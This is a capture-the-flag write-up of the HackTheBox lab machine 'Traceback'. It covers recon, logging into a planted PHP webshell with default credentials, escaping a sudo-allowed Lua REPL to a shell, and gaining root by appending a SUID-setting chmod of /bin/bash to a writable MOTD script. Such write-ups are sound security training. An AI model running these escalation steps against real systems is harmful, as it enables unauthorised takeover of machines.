 ```yaml
---
title: Traceback
date: 2022-06-16 
categories: [HackTheBox, Easy]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```


![](https://i.imgur.com/dVPTnt8.png)

Traceback is one of the boxes I am proud of doing not because of its difficulty, but how fast I was able to gain root on it. Granted, the "hacker" who this box's premise revolved around, left hints that were brutally obvious. This was one of the first times that I did not run into a wall while solving the box. The attack vector was very clear from start to finish.

## Recon
---
`nmap -sVC 10.10.10.181`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-15 20:37 EDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache/2.4.29 (Ubuntu)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.43 seconds
```

![](https://i.imgur.com/tc6BJGj.png)


Apparently theres a backdoor somewhere. Its probably a webshell of some sort.

`gobuster dir -u http://10.10.10.181 -w /usr/share/seclists/Web-Shells/backdoor_list.txt`
```    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Web-Shells/backdoor_list.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/15 20:41:50 Starting gobuster in directory enumeration mode
===============================================================
/smevk.php            (Status: 200) [Size: 1261]                
===============================================================
```

![](https://i.imgur.com/iFWnKhI.png)

Looks like we got some sort of webshell.

![](https://i.imgur.com/ewcBU6Q.png)
Based on the github repo for this specific webshell, the default creds are just admin admin so lets test that.

![](https://i.imgur.com/wjLCXwc.png)

After some play testing, heres my conclusion about this webshell
* its pretty janky
* we have file write
* attemped a reverse shell but something went wrong

Upload my ssh key into the .ssh directory and ssh in.

`ssh webadmin@traceback.htb`
```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Jun 15 18:10:25 2022 from 10.10.14.19
webadmin@traceback:~$ 
```

Worked perfectly however this is not user. sysadmin is the user and we need to pivot to them.
> It is also worth noting that message of the day when sshing in
{: .prompt-idea }

`sudo -l`
```
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

`cat note.txt `
```
- sysadmin -
I have left a tool to practice Lua.
Im sure you know where to find it.
Contact me if you have any question.
```

Couple of interesting finds. Note.txt is referring to some sort of Lua program and `sudo -l` references luvit which is a lua program. Putting two and two together, we can abuse the lua program to spawn a shell as our user. Running the program just executes lua commands so we can just simply spawn a shell.

Demo:
```
Welcome to the Luvit repl!
> os.execute('/bin/sh')
$ whoami
sysadmin
```

User obtained. Time for root.

## Root
---
```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land
```

Revisiting the motd, the hacker seems to have left us a large hint moving forward.

`ls -la /etc/update-motd.d/`
```
total 32
drwxr-xr-x  2 root sysadmin 4096 Apr 22  2021 .
drwxr-xr-x 80 root root     4096 Apr 22  2021 ..
-rwxrwxr-x  1 root sysadmin  981 Jun 15 19:39 00-header
-rwxrwxr-x  1 root sysadmin  982 Jun 15 19:39 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Jun 15 19:39 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Jun 15 19:39 80-esm
-rwxrwxr-x  1 root sysadmin  299 Jun 15 19:39 91-release-upgrade
```
Looks like all of them are writable. These are scripts that are run when you logon to the box meaning we can just turn /bin/bash into an suid and run bash -p to gain root.

```bash
echo "chmod 7777 /bin/bash" >> /etc/update-motd.d/00-header
```

Then log out and relog on.

Demo:
```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Jun 15 19:35:06 2022 from 10.10.14.19
-bash-4.4$ whoami
webadmin
-bash-4.4$ bash -p
bash-4.4# whoami
root
```

Pwned :)